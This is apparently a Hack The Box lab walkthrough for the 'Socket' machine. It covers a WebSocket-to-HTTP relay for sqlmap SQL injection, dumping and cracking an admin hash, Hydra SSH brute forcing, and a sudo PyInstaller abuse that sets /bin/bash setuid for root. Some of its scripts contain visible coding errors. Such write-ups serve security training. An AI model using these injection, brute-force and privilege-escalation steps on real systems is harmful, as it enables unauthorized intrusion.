





[Read on English](README.md)

# Socket - WriteUp/Walkthrought [HTB]

## PWNED By 14Wual

[Github](https://github.com/14wual): 14wual <br>
[Twitter](https://twitter.com/14wual): 14wual <br>
[YouTube](https://youtube.com/@wual): @wual <br>
[Web Page](https://14wual.github.com) <br>

## About the Laboratory

**Level**: Medium <br>
**Operating System**: Linux <br>
**Rating**: 3.3 <br>
**Release Date**: <br>
**IP**: 10.10.11.206 <br>

## Collection

First of all, we set up the lab, turning on `vpn`, and setting our polybar `target`(s4vitar) extension: `settarget Socket 10.10.11.206`

Now yes, we start using **NMAP** to find the open ports. Command:

```
sudo nmap -sCV -T5 10.10.11.206 -oN nmap-basic.txt
```

Output:

```
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_ 256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://qreader.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As it has a port 80, let's go first to visit its web page. The script has resolved the `DNS` for us, so first, we will modify the `/etc/hosts` file with the following command: `sudo nano /etc/hosts`. We add at the end the following content:

```
10.10.11.206 qreader.htb
```


Also, it can be done, using the echo command:

```
sudo echo "10.10.11.206 qreader.htb" >> /etc/hosts
```

Having this ready, now yes, we are going to enter the web page:

```
brave-browser http://qreader.htb/ &
```

The first content that we find is the following:


In the first instance, we see that we will be able to upload content (images in this case, although text strings seem to be as well). On the other hand we see that the app is programmed in a flask, and that we can download the same app for windows and linux. Let's download the tablet and see what it brings.


This compressed zip (we unzip it with the `unzip <file.zip>` command) brings us a folder called **app**, and inside this we find an **executable** and a test image, which when **scanned* *, gives us a text: `kavigihan`.

When executing the file: `./qreader` a graphical interface appears, simple with a text box and an image viewer. If we save the image and scan it, we see that the **qr** is fully functional.



For now, we're going to leave the app out of the way for now, and we're going to rescan the ports in case we find anything else interesting. Command:

```
nmap -sCV -p- -T5 10.10.11.206
```

This has been the output that has returned to me.

<details>
<summary>Output</summary>

```
Not shown: 61831 closed tcp ports (conn-refused), 3701 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_ 256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-server-header:
| Apache/2.4.52 (Ubuntu)
|_ Werkzeug/2.1.2 Python/3.10.6
5789/tcp open unknown
| fingerprint-strings:
| GenericLines, GetRequest:
| HTTP/1.1 400 Bad Request
| Date: Thu, 25 May 2023 08:06:43 GMT
| Server: Python/3.10 websockets/10.4
| Content-Length: 77
| Content-Type: text/plain
| Connection: close
| Failed to open a WebSocket connection: did not receive a valid HTTP request.
| HTTPOptions, RTSPRequest:
| HTTP/1.1 400 Bad Request
| Date: Thu, 25 May 2023 08:06:44 GMT
| Server: Python/3.10 websockets/10.4
| Content-Length: 77
| Content-Type: text/plain
| Connection: close
| Failed to open a WebSocket connection: did not receive a valid HTTP request.
| Help:
| HTTP/1.1 400 Bad Request
| Date: Thu, 25 May 2023 08:06:59 GMT
| Server: Python/3.10 websockets/10.4
| Content-Length: 77
| Content-Type: text/plain
| Connection: close
| Failed to open a WebSocket connection: did not receive a valid HTTP request.
| SSLSessionReq:
| HTTP/1.1 400 Bad Request
| Date: Thu, 25 May 2023 08:07:00 GMT
| Server: Python/3.10 websockets/10.4
| Content-Length: 77
| Content-Type: text/plain
| Connection: close
|_ Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5789-TCP:V=7.93%I=7%D=5/25%Time=646F1715%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x202
SF:5\x20May\x202023\x2008:06:43\x20GMT\r\nServer:\x20Python/3\.10\x20webso
SF:ckets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\n
SF:Connection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20c
SF:onnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.\
SF:n")%r(GetRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Thu
SF:,\x2025\x20May\x202023\x2008:06:43\x20GMT\r\nServer:\x20Python/3\.10\x2
SF:0websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/pla
SF:in\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocke
SF:t\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20requ
SF:est\.\n")%r(HTTPOptions,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:
SF:\x20Thu,\x2025\x20May\x202023\x2008:06:44\x20GMT\r\nServer:\x20Python/3
SF:\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20t
SF:ext/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20W
SF:ebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\
SF:x20request\.\n")%r(RTSPRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Thu,\x2025\x20May\x202023\x2008:06:44\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(Help,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Thu,\x2025\x20May\x202023\x2008:06:59\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(SSLSessionReq,F4,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Thu,\x2025\x20May\x202023\x2008:07:00\x20GMT\r\nSer
SF:ver:\x20Python/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nCo
SF:ntent-Type:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x
SF:20open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x
SF:20valid\x20HTTP\x20request\.\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

We have a new port `:5789/tcp`. If we enter through the browser, it returns the following message:

```
Failed to open a WebSocket connection: invalid Connection header: keep-alive.

You cannot access a WebSocket server directly with a browser. You need a WebSocket client.
```


This message means that we cannot directly access the WebSocket server, so we are going to program a `python script` that does it, let's see if this way, if it lets us enter.

The initial script is the following:

```python
import websocket

def on_message(ws, message):print("Message received:", message)
def on_error(ws, error):print("Error:", error)
def on_close(ws):print("Connection closed")
def on_open(ws):print("Connection established")

if __name__ == "__main__":
     websocket.enableTrace(True)
     ws = websocket.WebSocketApp("ws://10.10.11.206:5789",
         on_message=on_message,
         on_error=on_error,
         on_close=on_close)
     ws.on_open = on_open
     ws.run_forever()

```

When executed, it gives us the following response:

```
-- request header ---
GET / HTTP/1.1
Upgrade: websocket
Host: 10.10.11.206:5789
Origin: http://10.10.11.206:5789
Sec-WebSocket-Key: m65M917QvJsqxzCM9uaeMg==
Sec-WebSocket-Version: 13
Connection: Upgrade


-----------------------
--- response header ---
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: 7QO5e2ptoGHglOXqH8IWgmbR70Y=
Date: Thu, 25 May 2023 08:34:19 GMT
Server: Python/3.10 websockets/10.4
-----------------------
Established connection
```

In the `on_open` function we are going to add the following line:

```python
ws.send("Hello, server!")
```

Let's see the server response:

```
++Sent raw: b'\x81\x8fd\x89\xd7e,\xe6\xbb\x04H\xa9\xa4\x00\x16\xff\xbe\x01\x0b\xfb\xf6'
++Sent decoded: fin=1 opcode=1 data=b'Hello, server!'
++Rcv raw: b'\x88\x02\x03\xf3'
++Rcv decoded: fin=1 opcode=8 data=b'\x03\xf3'
++Sent raw: b'\x88\x82p\xefs/s\x07'
++Sent decoded: fin=1 opcode=8 data=b'\x03\xe8'
error from callback <function on_close at 0x7fa430a89260>: on_close() takes 1 positional argument but 3 were given
Error: on_close() takes 1 positional argument but 3 were given
```

We are going to put 3 arguments to the `on_close` function >> `def on_close(ws, o, u)` due to the error message that it has reported when closing the connection: `Error: on_close() takes 1 positional argument but 3 were given`. Currently, it should look like this (I have taken the opportunity to translate):

```python
import websocket

def on_message(ws, message):print("Message received:", message)
def on_error(ws, error):print("Error:", error)
def on_close(ws, o, u):print(f"Connection Close: Arg 1: {o}, Arg2: {u}")
def on_open(ws,):
     print("Established connection")
     ws.send("Hello world!")

if __name__ == "__main__":
     websocket.enableTrace(True)
     ws = websocket.WebSocketApp("ws://10.10.11.206:5789",
         on_message=on_message,
         on_error=on_error,
         on_close=on_close)
     ws.on_open = on_open
     ws.run_forever()
```

On the other hand, I made this little script to be able to read the `raw` responses,

```python
response = b'<text-bytes>'

try:
     iso_text = response.decode('iso-8859-1')
     print("[✓]iso-8859-1: ", iso_text)
except Exception as e:print("[✗]E:", e)

try:
     bytes_utf8 = iso_text.encode('utf-8')
     print("[✓]utf-8: ", bytes_utf8.decode('utf-8'))
except Exception as e:print("[✗]E:", e)

```

You can see it here: [script](scripts/read-rcv-raw.py). If we continue with the main script, now we are going to try to send json requests, so that later, we can try to go through `sqlmap` and try to do `sqli`:

# Exploitation

```python
request = {
     "test": "test"
}
ws.send(json.dumps(request))
```

Let's paste the entire script to see the actual result (see [script test](scripts/WebSocketTest.py)), and execute it, to see the response:

```python
import websocket,json

def on_message(ws, message):print("Message received:", message)
def on_error(ws, error):print("Error:", error)
def on_close(ws, o, u):print(f"\n---Connection Close: Arg 1: {o}, Arg2: {u}---")

def on_open(ws):
     print("Established connection")

     request = {"test": "test"}
     mess = (json.dumps(request))

     print("--- Message sent ---\n",mess)
     ws.send(mess)

if __name__ == "__main__":
     websocket.enableTrace(True)
     ws = websocket.WebSocketApp("ws://10.10.11.206:5789",
         on_message=on_message,
         on_error=on_error,
         on_close=on_close)
     ws.on_open = on_open
     ws.run_forever()
```

Output:

```python
--- Message sent ---
  {"test": "test"}
++Sent raw: b'\x81\x90\xde[\x04G\xa5yp"\xad/&}\xfeyp"\xad/&:'
++Sent decoded: fin=1 opcode=1 data=b'{"test": "test"}'
++Rcv raw: b'\x81R{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
++Rcv decoded: fin=1 opcode=1 data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
Message received: {"paths": {"/update": "Check for updates", "/version": "Get version information"}}
```

Seeing this (`data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'`), let's modify the script to see version and paths :

```python

def on_open(ws):
     print("Established connection")

     request = {"version": "1.0"}
     ws.send(json.dumps(request))

if __name__ == "__main__":
     websocket.enableTrace(True)
     ws = websocket.WebSocketApp("ws://10.10.11.206:5789/update", ...)
```

First we'll try `url/update` in case it tells us what the current version is. The output is the following:

```
data=b'{"message": "Version 0.0.2 is available to download!"}'
```

So now let's modify the `request = {"version": "1.0"}` to the current version: `request = {"version": "0.0.2"}` to see what it reports:

Output: `data=b'{"message": "You have the latest version installed!"}`

We will change the `url/update` to `url/version`, leaving the `request` with the newest version in case it reports information about the version:

Output: `Message received: {"message": {"id": 2, "version": "0.0.2", "released_date": "09/26/2022", "downloads": 720}}`

Seeing these answers, we are going to try to do some `sqli`, for this, we are going to set up an http server on port 80 (local) where we will use `sqlmap` to send `payloads`, the script is based on the script from [**ytnuobgub**](https://ytnuobgub.gitbook.io/htb/open-seasons-beta/socket). In short, what this script does is create a `middleware` server that allows sending `HTTP request` parameters (which `sqlmap` will send) to the `WebSocket` server and receiving the corresponding response.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import urlparse
from websocket import create_connection
import json, webbrowser

ws_server = "ws://10.10.11.206:5789/version"

def sendPayloads(payload):
    ws = create_connection(ws_server)
        
    request = {"version": payload}
    ws.send(json.dumps(request))
        
    response = ws.recv()
    ws.close()

    if response: return response
    else: return None

class app:

    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self, content_type="text/plain") -> None:
            self.send_response(200)

            try:payload = urlparse(self.path).query.split('=',1)[1]
            except IndexError:payload = None

            if payload:content = sendPayloads(payload)
            else:content = 'No payloads specified.'

            self.send_header("Content-type", content_type)
            self.end_headers()

            self.wfile.write(content.encode())

            return
        
    def MidleWareServer(host_port, content_type="text/plain"):

        page = f"http://{host_port[0]}:{host_port[1]}"

        print("[✓] Starting MiddleWare Server")
        try:httpd = app._TCPServer(host_port, app.CustomHandler)
        except Exception as e:print("[✗]E: ", e)

        print(f"[✓] Server started in {page}/")

        print(f"[Info] Send payloads in {page}/?id=!payloads")
        print(f"[Info] Opening Server in Browser")
        webbrowser.open(f"{page}/?id=0.0.2")

    httpd.serve_forever()

    class _TCPServer(TCPServer):
        allow_reuse_address = True

if __name__ == '__main__':
    try:app.MiddleWareServer(('127.0.0.1', 1014))
    except KeyboardInterrupt:pass
```

You can see the script [here](scripts/WebSocketPayloads.py)



# get

We run the script, in our terminal, we type the following command to run the `sqlmap`:

```
sqlmap -u "http://127.0.0.1:1014/?id=1" --batch --dbms SQLite --risk 3 --level 5 --flush-session
```

If `sqlmap` thus reports that I couldn't perform `sqli`, we will change the current **id** (`?id=0.0.2`) to `?id=1`.

In the output of the script, all the requests made by `sqlmap`: `127.0.0.1 - - [25/May/2023 15:14:06] "GET /?id=-1542%27%29%20OR%203852% 3D3852%20AND%20%28%27tTZb%27%20LIKE%20%27tTZb HTTP/1.1" 200 -` And in the output of the terminal, among all, we can see the following message that the `ddbb` is vulnerable to SQLite :

```
the back-end DBMS is SQLite
DBMS back-end: SQLite
```

And it gives us an example of Payload:

```
id=1" UNION ALL SELECT NULL,NULL,CHAR(113,118,106,120,113)||CHAR(113,76,67,87,118,85,75,121,67,84,118,113,89,109,100,78,107,65,118,100,67,79 ,90,115,73,97 ,69,84,66,110,80,66,117,88,70,103,89,75,119,68)||CHAR(113,118,120,107,113),NULL-- Ejwv
```

Besides, we are going to see the tables that it has reported to us (there are a total of 6, `reports, info, users, sqlite_sequence, answers & versions`):

```
Table: users
[1 entry]
+----+-------+----------------------------------+- ---------+
| id | role | password | username |
+----+-------+----------------------------------+- ---------+
| 1 | admin | 0c090c365fa0559b151a43e0fea39710 | admin |
+----+-------+----------------------------------+- ---------+

```

We already have a username and password! It's a hash, let's go decrypt it:

```
hash-identifier 0c090c365fa0559b151a43e0fea39710
```


Since `hash-identifier` identified us with `md5`, we are going to use this [web page](https://www.md5online.org/md5-decrypt.html) to decrypt.


We already have it! The password is: `admin:denjanjade122566`. If we try to start ssh, we won't be able to start because we don't have the user yet, but if we read the `answers` table, we can see that an admin ends all his answers by signing his name: **Thomas Keller**, example:

```
Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller
```

`answers` table:

```
+----+-------------------------------------------- -------------------------------------------------- -------------------------------------------------- -------------------------------+---------+-------- -----+---------------+
| id | answer | status | answered_by | answered_date |
+----+-------------------------------------------- -------------------------------------------------- -------------------------------------------------- -------------------------------+---------+-------- -----+---------------+
| 1 | Hello Json,\\n\\nAs if now we support PNG format only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller | PENDING | admin | 08/17/2022 |
| 2 | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin | 09/25/2022 |
+----+-------------------------------------------- -------------------------------------------------- -------------------------------------------------- -------------------------------+---------+-------- -----+---------------+
```

So what we are going to do is a python script, so that it prints an output, with all the possible usernames that the name of **Thomas Keller** can have, [see script](scripts/create-usernames. py):

```python
import itertools

def generate_usernames(full_name):
     full_name = full_name.lower()
     names = full_name.split()
     initials = [n[0] for n in names]
     last_name = names[-1]

     combinations = []
     for r in range(1, len(initials) + 1):combinations.extend(list(itertools.combinations(initials, r)))

     usernames = []

     for combo in combinationions:
         username = "".join(combo) + last_name
         usernames.append(username)

     return usernames

full_name = "Thomas Keller"
usernames = generate_usernames(full_name)

for username in usernames:print(username)
```

When executing the script, it has generated the following users: `tkeller, kkeller, tkkeller` so we are going to execute the following command to save it in a file:

```
python3 create-usernames.py >> users.txt
```


And having the user file, we are going to use hydra, to perform a brute force attack and discover what the user is. Command:

```
hydra -L users.txt -p denjanjade122566 ssh://qreader.htb:22 -V
```

The user is **tkeller**. Here is the report from **hydra**.



# Maintenance

Now yes, we enter the machine through port **`22(ssh)`**: `ssh ssh tkeller@10.10.11.206`

If we do a `whoami` we will see that we are the user **tkeller**, and if we do an `id` it reports the following: `uid=1001(tkeller) gid=1001(tkeller) groups=1001(tkeller),1002 (shared)`. Finally, `ls && cat user.txt` and we will get our flag: 17c98****************************

If we do `sudo -l`, we can see that this `path`: `/usr/local/sbin/build-installer.sh`, sudo can be executed without needing to be root (`(ALL : ALL) NOPASSWD` ). We will take it into account if the `linpeas` does not report anything important to us.

Before running `linpeas` let's try modifying our `gid` and `uid` with `/sbin/caps`. Command:

```
/sbin/capsh --gid=0 --uid=0 -- | Output: Failed to set gid=0: Operation not permitted

```

Since it won't let us, we are going to use the `linpeas`. We switch linpeas from one machine to another with `python3 -m http.server 80` and `wget http://10.10.14.108:80/linpeas_base.sh`. Then `chmod +x linpeas_base.sh` and finally we execute it: `./linpeas_base.sh`



The `linpeas` hasn't reported anything of value to me, so come on, we'll try the `path` reported by `sudo -l` (`/usr/local/sbin/build-installer.sh`) From what I think which is the file, is, a python builder, so we are going to use this simple script:

```
imports
import sys

os.system('chmod 777 /bin/bash')
os.system('chmod u+s /bin/bash')
```

```
sudo /usr/local/sbin/build-installer.sh make exploit.py
```

Output:

```
384 INFO: PyInstaller: 5.6.2
384 INFO: Python: 3.10.6
387 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
388 INFO: wrote /tmp/qreader.spec
392 INFO: UPX is not available.
script '/home/tkeller/exploit.py' not found
```

Now we are going to copy into `/home/tkeller/` the temporary file that has been created: `/tmp/qreader.spec`. And we execute the following command: `sudo /usr/local/sbin/build-installer.sh build test.spec` being the file `test.spec`, the *exploit*.

Output:

```
133 INFO: PyInstaller: 5.6.2
133 INFO: Python: 3.10.6
136 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
141 INFO: UPX is not available.
```

If we execute these commands we can already have the **flag root** .

```
bin/bash -p
bash-5.1# id
uid=1001(tkeller) gid=1001(tkeller) euid=0(root) groups=1001(tkeller),1002(shared)
bash-5.1# cat /root/root.txt
99009****************************
```



Thank you very much if you have come here.